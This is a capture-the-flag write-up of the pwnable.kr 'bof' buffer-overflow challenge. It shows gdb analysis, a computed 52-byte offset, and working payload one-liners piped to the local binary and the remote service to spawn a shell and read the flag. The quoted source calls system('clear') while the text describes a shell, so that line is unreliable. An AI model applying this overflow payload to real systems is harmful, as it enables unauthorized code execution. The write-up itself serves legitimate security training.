 ﻿## To pwn: bof

### Question: 
>Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?
>Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c
Running at : nc pwnable.kr 9000


### How did I pwn it?

1. I downloaded the sourcecode(**bof.c**) and executable(**bof**). Understanding the sourcecode will help us pwn it.

* Sourcecode:
	
		 #include <stdio.h>
		 #include <string.h>
		 #include <stdlib.h>
		 void func(int key){
	        char overflowme[32];
	        printf("overflow me : ");
	        gets(overflowme);       // smash me!
	        if(key == 0xcafebabe){
                system("clear");
	        }
	        else{
                printf("Nah..\n");
	        }
		}
		int main(int argc, char* argv[]){
	        func(0xdeadbeef);
	        return 0;
		}

* It is quite simple. **main** calls a function **func** with argument **0xdeadbeef**. 
* In **func**, 
	* There is a buffer **overflowme[32]**. 
	* **gets** is used, which means it does not check the length of string entered. 

* The input payload should be a in such a way that the **if** condition comes true, and we get the shell. 
* We have to overwrite the **key** value with **0xcafebabe**. 

2. **Pwning it** :

* Run the executable using  **gdb-peda**. 

* `gdb-peda$ b main`	: Breaking at main

* `gdb-peda$ b func` : Breaking at func

* `gdb-peda$ run`	

* Let us find out the **address** of **0xdeadbeef**. Have a look at the below image. Address = **0xffffcea0**.
![address_of_deadbeef](./images/address_of_deadbeef.png)

*  Objective is to overwrite **0xdeadbeef** with **0xcafebabe** at address **0xffffcea0**. 

* This is the disassembly of function **func** :

		Dump of assembler code for function func:
	   0x080484fb <+0>:	push   ebp
	   0x080484fc <+1>:	mov    ebp,esp
	   0x080484fe <+3>:	sub    esp,0x38
	   0x08048501 <+6>:	mov    eax,gs:0x14
	   0x08048507 <+12>:	mov    DWORD PTR [ebp-0xc],eax
	   0x0804850a <+15>:	xor    eax,eax
	   0x0804850c <+17>:	sub    esp,0xc
	   0x0804850f <+20>:	push   0x8048620
	   0x08048514 <+25>:	call   0x8048390 <printf@plt>
	   0x08048519 <+30>:	add    esp,0x10
	   0x0804851c <+33>:	sub    esp,0xc
	   0x0804851f <+36>:	lea    eax,[ebp-0x2c]
	   0x08048522 <+39>:	push   eax
	   0x08048523 <+40>:	call   0x80483a0 <gets@plt>
	   0x08048528 <+45>:	add    esp,0x10
	   0x0804852b <+48>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
	   0x08048532 <+55>:	jne    0x8048546 <func+75>
	   0x08048534 <+57>:	sub    esp,0xc
	   0x08048537 <+60>:	push   0x804862f
	   0x0804853c <+65>:	call   0x80483d0 <system@plt>
	   0x08048541 <+70>:	add    esp,0x10
	   0x08048544 <+73>:	jmp    0x8048556 <func+91>
	   0x08048546 <+75>:	sub    esp,0xc
	   0x08048549 <+78>:	push   0x8048635
	   0x0804854e <+83>:	call   0x80483c0 <puts@plt>
	   0x08048553 <+88>:	add    esp,0x10
	   0x08048556 <+91>:	nop
	   0x08048557 <+92>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x0804855a <+95>:	xor    eax,DWORD PTR gs:0x14
	   0x08048561 <+102>:	je     0x8048568 <func+109>
	   0x08048563 <+104>:	call   0x80483b0 <__stack_chk_fail@plt>
	   0x08048568 <+109>:	leave  
	   0x08048569 <+110>:	ret    
		End of assembler dump.

* When I first looked at the disassembly, I was confused because there is **stack cookie** to protect the stack. But, it's presence did not hurt the exploit.

* Quickly moving the **<+39>**, where the argument for **gets** is pushed. The **starting address** of **overflowme** buffer is pushed. Let is make note of this address.
![address_of_buffer](./images/address_of_buffer.png)

* Address of **overflowme** buffer = **0xffffce6c**. 
* We know that Address of **key** where **0xcafebabe** has to be stored = **0xffffcea0**.
* Difference between those addresses = **0xffffcea0** - **0xffffce6c** = **52**.(It is always good to have a terminal with python interpreter opened in it. It comes in very handy for these calculations, generating the payload strings and more)
* Let us look at the stack for more clarity. `gdb-peda$ x/20xw 0xffffce6c`
![stack_trace](./images/stack_trace.png)
* From the above image, it is clear that payload length = **16 * 3 + 4 + 4** bytes.
* The intel architecture is a **little-endian** arch. So, 
	* **Payload**: **'a' * 52 + '\xbe\xba\xfe\xca'**

* You can also see the stack cookie there, which will get corrupted by "aaaa" of the payload. But it does not matter because, we are getting the shell before the stack cookie is checked. The code which checks the cookie(**xor    eax,DWORD PTR gs:0x14**) is never executed.
![stack cookie](./images/stack_cookie.png)

* In fact, no instructions from **<+70>** is executed. That is because,**system()** would run a new process. Till that new process terminates, system() won't return. As it doesn't return(till the spawned shell is alive), no instructions after that are executed.

3. Final step.

* I tried this out on the local executable and then the remote.

		(python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; cat) | ./bof
		whoami
		adwaith-os
* It succeeded. Tried it on the remote one.
	
		(python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; cat ) | nc pwnable.kr 9000

* **GAME OVER!** 
![pwned it](./images/pwned_it.png)

### FLAG: daddy, I just pwned a buFFer :)

-------------------------------------

**PS**: 

1. I spent a lot of time on finding **cat** will help me execute commands properly on the remote shell. This is roughly what I did to figure that out.

* I exploited the local executable,before going to the remote one.
	
	* I did not get a shell. It did not print **Nah..**, So , I was pretty sure **0xdeadbeef** was overwritten by **0xcafababe** , but I did not get the shell. Or, probably shell was spawned, but as soon as it got spawned, it used to get terminated. I got output like this.
![exploit_success_no_shell](./images/exploit_success_no_shell.png)
	
	* I tried with remote also, I had the same problem. 
	
	* I wanted to investigate this. So, I wrote [this](./code_samples/code1.c) small program, if **system()** spawns a shell when this program is run. It spawned a shell! Have a look at this.
![code1.c shell spawning](./images/code1.c_shell_spawning.png)

	* After searching about this on internet, i found [this](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa) stackoverflow answer, which solves our problem.
	
>If you control stdin : 
>What you'll need to do is connect stdin to something that will, when read, provide a source of commands **before** invoking that code.

* From the stackoverflow page, i came to a conclusion that the shell was spawned, it has nothing to execute, instantly it terminates. 

* We have to stop it from terminating by using the above fact. We have to connect stdin to something(I feel, it is a command), which when read by the shell executes commands from stdin. 

* I executed **bof** like this.

		$ (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; echo "qwerty") | ./bof
		/bin/sh: 1: qwerty: not found
		*** stack smashing detected ***: ./bof terminated
		overflow me : Aborted (core dumped)
 
 * I understood that, whatever you echo, it gets echoed to the spawned shell, and shell tries to execute it. 
 * I want the shell to read the contents in the flag file. So, the payload is
 
		 $ (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; echo "/bin/cat flag") | ./bof
		/bin/cat: flag: No such file or directory
		*** stack smashing detected ***: ./bof terminated
		overflow me : Aborted (core dumped)

* The echo command is echoing the text inside "" which is executed by the shell. 
* The command which continuously takes input and can give that text to shell is **cat** (It is like **echo** in a for loop, and we can give the **command** we want). 

* I tried it out and it worked.

2. First, when I input the payload without **cat**, there was no sign of a shell being spawned. On my local machine, I replaced **system("/bin/sh") with many other commands like system("**ls**"), system("**clear**"). They all were executed and segfault occured.

3. I thought I was not able to get a shell because i felt there is some propety of **stack cookie** I did not know. So, I searched for the official research paper and read it. Amazing technique to stop stack smashes.
[Link to the paper](ftp://gcc.gnu.org/pub/gcc/summit/2003/Stackguard.pdf)


